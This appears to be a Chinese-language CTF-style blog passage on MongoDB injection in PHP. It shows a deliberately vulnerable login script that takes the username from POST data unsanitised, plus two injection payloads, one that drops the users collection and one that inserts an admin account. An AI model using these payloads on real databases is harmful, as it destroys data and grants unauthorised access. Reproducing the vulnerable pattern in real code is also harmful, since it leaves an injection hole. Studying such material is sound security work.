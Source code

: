 ```cobol
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f7d421d30b6fc87e7979e475af5fe704.png" alt="" style="max-height:650px; box-sizing:content-box;" />


### comment方法造成注入

这里的内容其实是被php官方制止的 因为很容易造成漏洞

但是如果工作量很大 难免有人选择

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb");
$username = $_POST['username'];
 
$filter = ['name' => $username];
$query = new MongoDB\Driver\Query($filter);
 
$result = $manager->executeQuery('test.admin', $query)->toArray();
$count = count($result);
 
if ($count > 0) {
    foreach ($result as $user) {
        $user = (array)$user;
        echo '====Login Success====<br>';
        echo 'username: ' . $user['name'] . '<br>';
        echo 'password: ' . $user['password'] . '<br>';
    }
} else {
    echo 'Login Failed';
}
?>
```

这个时候 其实我们就已经是shell的权限了 我们可以开始操作数据库

但是本地是最新的mongodb

所以出现报错

```cobol
 
Fatal error: Uncaught MongoDB\Driver\Exception\CommandException: no such command: 'eval' in C:\Users\Administrator\Desktop\CTFcode\dir.php:9 Stack trace: #0 C:\Users\Administrator\Desktop\CTFcode\dir.php(9): MongoDB\Driver\Manager->executeCommand('admin', Object(MongoDB\Driver\Command)) #1 {main} thrown in C:\Users\Administrator\Desktop\CTFcode\dir.php on line 9
```

但是我们看payload其实就ok了

```cobol
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```
